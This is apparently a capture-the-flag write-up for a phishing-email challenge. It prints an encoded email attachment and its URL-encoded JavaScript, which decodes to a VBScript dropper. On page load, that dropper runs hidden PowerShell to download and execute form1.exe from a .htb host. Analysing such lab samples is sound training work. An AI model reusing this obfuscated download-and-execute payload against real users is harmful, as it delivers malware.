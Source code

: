```eml
NyUzYiUyNCU2NiU2YyU2MSU2NyUzZCUyNyU0OCU1NCU0MiU3YiUzNCU2ZSUzMCU3NCU2OCUzMyU3
MiU1ZiU2NCUzNCU3OSU1ZiUzNCU2ZSUzMCU3NCU2OCUzMyU3MiU1ZiU3MCU2OCUzMSU3MyU2OCU2
OSUzMSU2ZSU2NyU1ZiUzNCU3NCU3NCUzMyU2ZCU3MCU1NCU3ZCUyMiUyYyUyMCU2ZSU3NSU2YyU2
YyUyYyUyMCU2ZiU2MiU2YSU0MyU2ZiU2ZSU2NiU2OSU2NyUyYyUyMCU2OSU2ZSU3NCU1MCU3MiU2
ZiU2MyU2NSU3MyU3MyU0OSU0NCUyOSUwZCUwYSUwOSU3NyU2OSU2ZSU2NCU2ZiU3NyUyZSU2MyU2
YyU2ZiU3MyU2NSUyOCUyOSUwZCUwYSU2NSU2ZSU2NCUyMCU3MyU3NSU2MiUwZCUwYSUzYyUyZiU3
MyU2MyU3MiU2OSU3MCU3NCUzZSUwZCUwYSUzYyUyZiU2OCU2NSU2MSU2NCUzZSUwZCUwYSUzYyUy
ZiU2OCU3NCU2ZCU2YyUzZSUwZCUwYScpKTsNCjwvc2NyaXB0Pg0KPC9ib2R5Pg0KPC9odG1sPg0K
DQoNCg0KDQoNCg==
-----------------------2de0b0287d83378ead36e06aee64e4e5--
```

There is an attachment in the form of base64 encoding.
Try decoding the attachment onlineform.html, and the output will be an HTML file containing JavaScript.

onlineform.html:

```javascript
document.write(
  unescape(
    "%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a"
  )
);
```

Unescape the JavaScript, and the flag will be revealed:
